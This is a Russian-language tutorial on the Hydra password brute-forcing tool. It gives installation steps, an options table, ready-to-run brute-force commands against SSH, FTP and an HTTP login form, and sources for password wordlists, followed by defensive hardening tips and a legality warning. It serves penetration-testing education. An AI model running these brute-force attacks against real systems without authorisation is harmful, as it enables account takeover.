 ### **Использование Hydra для подбора паролей (Brute-Force)**
`hydra` — это мощный инструмент для brute-force атак, который поддерживает множество протоколов (SSH, FTP, HTTP, RDP и др.).  

#### **1. Установка Hydra**
На **Kali Linux / Debian**:
```bash
sudo apt update && sudo apt install hydra
```
На **Arch Linux**:
```bash
sudo pacman -S hydra
```
На **Fedora / RHEL**:
```bash
sudo dnf install hydra
```
На **ALT / Ximper**:
```bash
sudo epmi hydra
```



#### **2. Основной синтаксис Hydra**
```bash
hydra -l <username> -P <wordlist> <protocol>://<target_IP> -s <port> -t <threads> -vV
```
| Опция | Описание |
|--------|------------|
| `-l` | Логин (например, `root`, `admin`) |
| `-L` | Файл со списком логинов |
| `-p` | Один пароль (например, `password123`) |
| `-P` | Файл со списком паролей (например, `rockyou.txt`) |
| `-s` | Порт (по умолчанию зависит от протокола) |
| `-t` | Количество потоков (по умолчанию `16`) |
| `-vV` | Подробный вывод (`-v` — минимальный, `-V` — с деталями) |
| `-o` | Сохранить результат в файл (`-o found.txt`) |



### **3. Примеры атак**
#### **1. Атака на SSH (подбор пароля для root)**
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://192.168.87.31 -t 4 -vV
```
- `-t 4` — уменьшает количество потоков, чтобы избежать блокировки.
- Если SSH на нестандартном порту (например, `2222`), добавьте `-s 2222`.

#### **2. Атака на FTP**
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt ftp://192.168.87.31 -vV
```

#### **3. Атака на HTTP-форму (POST-запрос)**
Если есть веб-форма входа (например, `/login.php`):
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.87.31 http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect" -vV
```
- `F=incorrect` означает, что Hydra ищет слово `incorrect` в ответе (неудачный вход).



### **4. Где взять wordlists (словари паролей)?**
- **Kali Linux**: `/usr/share/wordlists/`  
  Популярные словари:
  - `rockyou.txt` (обычные пароли)
  - `fasttrack.txt` (простые пароли)
  - `darkweb2017-top1000.txt` (утечки)
- **Скачать дополнительные**:
  ```bash
  wget https://github.com/danielmiessler/SecLists/archive/master.zip
  unzip master.zip
  ```



### **5. Как защититься от Hydra?**
Если вы админ и хотите защитить сервер:
1. **Изменить порт SSH** (не `22`).
2. **Запретить вход root по SSH** (`/etc/ssh/sshd_config`):
   ```ini
   PermitRootLogin no
   ```
3. **Использовать Fail2Ban** для блокировки brute-force:
   ```bash
   sudo apt install fail2ban
   ```
4. **Включить аутентификацию по ключу** (отключить пароли):
   ```ini
   PasswordAuthentication no
   ```



### **6. Важно!**
- **Brute-force без разрешения владельца системы — незаконен!**  
- Используйте только в тестовых средах (CTF, HackTheBox, VulnHub) или на своих серверах.
- Если сервер чужой — **нужно письменное разрешение (PenTest contract)**.




